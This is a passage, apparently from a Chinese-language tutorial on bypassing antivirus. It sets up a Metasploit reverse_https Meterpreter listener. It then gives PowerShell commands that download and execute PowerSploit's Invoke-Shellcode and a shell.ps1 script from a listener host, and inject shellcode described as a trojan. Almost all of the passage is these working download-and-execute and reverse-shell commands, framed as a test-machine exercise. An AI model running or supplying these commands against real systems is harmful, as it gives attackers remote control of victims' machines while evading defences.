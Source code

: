 ![53ec4e670d26fb2a6dfc641bc9ec756b](images/2020.04-bypass-06/7.png)

在msf中监听`windows/x64/meterpreter/reverse_https`

![fdf79acf2db9d5d9b0bbdb0b2d63c18e](images/2020.04-bypass-06/8.png)

在测试机器powershell中分别执行下面命令。

```
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1")

IEX(New-Object Net.WebClient).DownloadString("http://10.211.55.2/shell.ps1")

Invoke-Shellcode -Shellcode ($buf) -Force  运行木马
```